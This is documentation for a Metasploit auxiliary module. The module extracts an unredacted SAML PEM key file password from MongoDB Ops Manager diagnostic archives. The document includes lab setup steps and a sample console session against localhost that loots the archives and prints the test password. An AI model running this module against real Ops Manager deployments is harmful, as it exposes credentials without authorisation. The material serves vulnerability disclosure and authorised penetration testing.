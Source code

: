## Vulnerable Application

MongoDB Ops Manager Diagnostics Archive does not redact SAML SSL Pem Key File Password
field (`mms.saml.ssl.PEMKeyFilePassword`) within app settings. Archives do not include
the PEM files themselves. This module extracts that unredacted password and stores
the diagnostic archive for additional manual review.

This issue affects MongoDB Ops Manager v5.0 prior to 5.0.21 and
MongoDB Ops Manager v6.0 prior to 6.0.12.

API credentials with the role of `GLOBAL_MONITORING_ADMIN` or `GLOBAL_OWNER` are required.

Successfully tested against MongoDB Ops Manager v6.0.11.

### Install on Ubuntu 22.04

1. Download mongodb server deb from https://www.mongodb.com/download-center/community/releases/archive .
 Look for: `Server Package: mongodb-org-server_6.0.11_amd64.deb`
2. Download the 1.4gig ops manager (mms) deb from https://www.mongodb.com/subscription/downloads/archived
3. `sudo apt-get install snmp`
4. `sudo dpkg -i mongodb-org-server_6.0.11_amd64.deb`
5. `sudo dpkg -i mongodb-mms-*`
6. `sudo nano /opt/mongodb/mms/conf/conf-mms.properties` and add a new field at the bottom of the file: `mms.saml.ssl.PEMKeyFilePassword=FINDME`
7. `sudo systemctl start mongod.service`
8. `sudo systemctl start mongodb-mms.service` (wait a little while for it to initialize and run)
9. Browse to http://<ip>>:8080/account/register and perform the install, the SMTP fields can use values for a server which doesn't exist.
    password: PassW0rd1!
10. Top left corner of the page after install should be "Project 0", click the drop down and create new project. Any name is fine, I called it 'test'
11. Top right of the screen, click Admin, API Keys, Create API Key. Create a new key, for permissions select
`Global Monitoring Admin` or `Global Owner` (or both).

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/mongodb_ops_manager_diagnostic_archive_info`
1. Do: `set API_USERNAME [api_username]`
1. Do: `set API_PASSWORD [api_password]`
1. Do: `run`
1. You should find similar output to the following: `Found ubuntu22-0-bgrid's unredacted mms.saml.ssl.PEMKeyFilePassword: FINDME`

## Options

### API_USERNAME

Username for the API key that was created with `Global Monitoring Admin` or `Global Owner` permissions.

### API_PASSWORD

Password for the API key that was created with `Global Monitoring Admin` or `Global Owner` permissions.

## Scenarios

### Mongodb OPS Manager 6.0.11 on Ubuntu 22.04

```
msf6 > use auxiliary/gather/mongodb_ops_manager_diagnostic_archive_info
msf6 auxiliary(gather/mongodb_ops_manager_diagnostic_archive_info) > set API_USERNAME zmdhriti
API_USERNAME => zmdhriti
msf6 auxiliary(gather/mongodb_ops_manager_diagnostic_archive_info) > set API_PASSWORD fd2faf05-18bc-4e6b-8ea1-419f3e8f95bc
API_PASSWORD => fd2faf05-18bc-4e6b-8ea1-419f3e8f95bc
msf6 auxiliary(gather/mongodb_ops_manager_diagnostic_archive_info) > set verbose true
verbose => true
msf6 auxiliary(gather/mongodb_ops_manager_diagnostic_archive_info) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(gather/mongodb_ops_manager_diagnostic_archive_info) > run 
[*] Running module against 127.0.0.1

[*] Checking for orgs
[*] Looking for projects in org 65e86256961a9b1cc98c6c8b
[+]   Found project: Project 0 (65e86256961a9b1cc98c6c8f)
[+] Stored Project Diagnostics files to /root/.msf4/loot/20240307151114_default_127.0.0.1_mongodb.ops_mana_015137.gz
[*]     Opening project_diagnostics.tar.gz
[+] Found ubuntu22-0-bgrid's unredacted mms.saml.ssl.PEMKeyFilePassword: FINDME
[+] Found ubuntu22-0-mms's unredacted mms.saml.ssl.PEMKeyFilePassword: FINDME
[+]   Found project: test (65e86331961a9b1cc98c6db7)
[+] Stored Project Diagnostics files to /root/.msf4/loot/20240307151114_default_127.0.0.1_mongodb.ops_mana_205173.gz
[*]     Opening project_diagnostics.tar.gz
[+] Found ubuntu22-0-bgrid's unredacted mms.saml.ssl.PEMKeyFilePassword: FINDME
[+] Found ubuntu22-0-mms's unredacted mms.saml.ssl.PEMKeyFilePassword: FINDME
[*] Auxiliary module execution completed
msf6 auxiliary(gather/mongodb_ops_manager_diagnostic_archive_info) >
```
